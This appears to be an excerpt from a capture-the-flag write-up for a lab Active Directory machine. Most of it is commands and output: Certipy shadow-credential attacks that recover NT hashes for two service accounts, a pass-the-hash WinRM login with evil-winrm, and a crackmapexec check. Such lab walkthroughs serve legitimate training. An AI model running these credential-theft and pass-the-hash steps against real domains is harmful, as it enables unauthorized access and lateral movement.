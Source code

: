 ```text
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```
Now I got `management_svc` NT hash

## WinRM as `MANAGEMENT_SVC` group

```text
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\desktop> type user.txt
5b5f382a************************
```

## Authentication as "CA_SVC"

I have `GenericAll` over `CA_SVC`,so I can `Shadow Credential` as you can see above, where we can Shadow credentials for `Management_SVC`

```text
certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290'
[*] Adding Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

```test
crackmapexec winrm dc01.certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
SMB         10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
HTTP        10.10.11.41     5985   DC01             [*] http://10.10.11.41:5985/wsman
WINRM       10.10.11.41     5985   DC01             [-] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2
```
